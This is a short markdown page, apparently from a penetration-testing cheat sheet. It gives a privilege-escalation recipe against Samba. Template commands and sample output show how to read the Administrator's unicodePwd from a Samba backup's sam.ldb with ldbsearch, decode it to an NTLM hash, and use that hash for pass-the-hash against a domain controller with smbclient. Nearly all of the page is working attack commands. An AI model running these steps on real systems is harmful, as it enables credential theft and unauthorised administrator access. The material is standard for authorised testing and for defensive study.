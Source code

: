 ```yaml
---
title: "Samba"
date: 2025-7-31
tags: ["Samba", "Kerberos", "Backup", "Linux", "SMB", "ldb", "Pass-The-Hash", "Restore", "Database"]
---
```


### Priesc #1: Retrieve NTLM from Samba Backup

{{< tab set1 tab1 >}}ldbsearch{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Query 'unicodepwd' of Target User

```console
ldbsearch -H sam.ldb '(samaccountname=<USER>)' 'unicodepwd'
```

```console {class="sample-code"}
$ ldbsearch -H sam.ldb '(samaccountname=Administrator)' 'unicodepwd'
# record 1
dn: CN=Administrator,CN=Users,DC=example,DC=com
unicodePwd:: iEb36u6PsRetBr3YMLdYbA==

# Referral
ref: ldap:///CN=Configuration,DC=example,DC=com

# Referral
ref: ldap:///DC=DomainDnsZones,DC=example,DC=com

# Referral
ref: ldap:///DC=ForestDnsZones,DC=example,DC=com

# returned 4 records
# 1 entries
# 3 referrals
```

#### 2. Convert to Hex

```console
echo -n '<UNICODEPWD>' | base64 -d | xxd -p   
```

```console {class="sample-code"}
$ echo -n 'iEb36u6PsRetBr3YMLdYbA==' | base64 -d | xxd -p   
8846f7eaee8fb117ad06bdd830b7586c
```

#### 3. Pass-The-Hash

```console
smbclient -L \\\\<TARGET>\\ -U '<DOMAIN>/<USER>%<HASH>' --pw-nt-hash
```

```console {class="sample-code"}
$ smbclient -L \\\\dc.example.com\\ -U 'example.com/Administrator%8846f7eaee8fb117ad06bdd830b7586c' --pw-nt-hash
gensec_gse_client_prepare_ccache: Kinit for Administrator@EXAMPLE.COM to access cifs/dc.example.com failed: Preauthentication failed: NT_STATUS_LOGON_FAILURE

        Sharename       Type      Comment
        ---------       ----      -------
        sysvol          Disk      
        netlogon        Disk      
        home            Disk      Home Directories
        IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server dc.example.com (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

{{< /tabcontent >}}